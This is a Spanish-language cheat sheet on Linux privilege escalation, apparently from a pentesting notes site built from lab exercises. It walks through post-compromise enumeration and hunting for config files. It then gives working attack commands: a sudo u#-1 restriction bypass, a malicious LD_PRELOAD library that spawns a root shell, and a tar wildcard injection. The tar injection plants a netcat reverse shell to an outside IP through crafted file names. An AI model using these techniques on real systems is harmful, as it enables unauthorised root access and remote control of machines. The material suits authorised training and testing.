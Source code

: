 # Escalada de privilegios en Linux

Se definen en esta página las principales técnicas de escalada de privilegios en máquinas Linux.

Se supone siempre que acabamos de comprometer una máquina y tenemos acceso a ella con un usuario de bajos privilegios.

## Enumeración de la máquina comprometida.

Hay una serie de comandos que siempre debemos lanzar al comprometer una máquina.

Comenzamos.

### whoami, id, ifconfig, ip a

* El comando **whoami** nos dice que usuario somos.
* El comando **id**  nos dice que usuario somos, pero ademas nos muestra los grupos en los que estamos.
* El comando **ifconfig** nos dice la ip que tenemos. Si no coincide con la que hemos trabajado es que estamos en un contenedor.
* El comando **ip a** hace lo mismo que **ifconfig** cuando este no funciona. Depende de la versión de linux.

![](/.gitbook/assets/escal01.png)

### Datos del sistema. uname -a, cat /etc/lsb-release

* El comando **uname -a** nos devuelve la versión de Linux que se ejecuta. Si es antigua podemos buscar vulnerabilidades con **searchsploit**. 
* El comando **cat /etc/lsb-release** nos devuelve la información exacta de la distribución. Si es antigua podemos buscar vulnerabilidades con **searchsploit**. 

![](/.gitbook/assets/escal02.png)

## Técnicas rutinarias

### Buscar ficheros **config** o **backup**

Sobre todo si estamos en un directorio de aplicación php, podemos buscar por el patrón config. Es posible obtener donde se configura la aplicación con el usuario de base de datos.

```bash
# Desde el directorio actual
find . -name *config*
# todo el sistema
find / -name *config*
```

También se puede hacer lo mismo con la palabra buckup, buscando posibles zips.

## Revisar los permisos sudo

Si tenemos la contraseña del usuario, podemos ver si tiene permisos sudo con **sudo -l**. Podemos ver si nos podemos aprovechar de algún permiso sudo para escalar privilegios.

![](/.gitbook/assets/kio33.png)

## Restricciones de sudo

Si tenemos una restricción en los permisos sudo, como **!root** podemos saltarnosla en versiones antiguas de sudo con **u#-1**..

```console
sudo u#-1 sqlite3 /dev/null '.shell /bin/bash'
```



## Buscar ficheros con permisos SUID

```bash
find / -perm -u=s -type f 2>/dev/null
find \-perm -4000 2>/dev/null
```

## Ver procesos

```bash
ps -faux
```


## Técnicas especificas.

### Sudo de ficheros binarios con la opción 

Si tenemos como opción en **sudo** la ejecución de un fichero binario y ademas tenemos la opción de enviar parametros en PRELOAD, ver la imagen:

![](/.gitbook/assets/sudo-preload.png)

Entonces podemos crearnos un módulo de preload malicioso. Creamos el fichero shell.c con el siguiente código c:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
 unsetenv("LD_PRELOAD");
 setgid(0);
 setuid(0);
 system("/bin/bash");
}
```

Luego lo compilamos como **shell.so**:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
``` 

Y ya podemos ejecutar el binario como sudo cargando el módulo:

```bash
sudo LD_PRELOAD=/home/webdeveloper/shell.so /usr/bin/sky_backup_utility
``` 

### Explotacion de comando **tar**:

```bash
server-management@vulnnet:/tmp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 4444 >/tmp/f" > /home/server-management/Documents/rev.sh
server-management@vulnnet:/tmp$ touch "/home/server-management/Documents/--checkpoint=1"
server-management@vulnnet:/tmp$ touch "/home/server-management/Documents/--checkpoint-action=exec=sh rev.sh"
```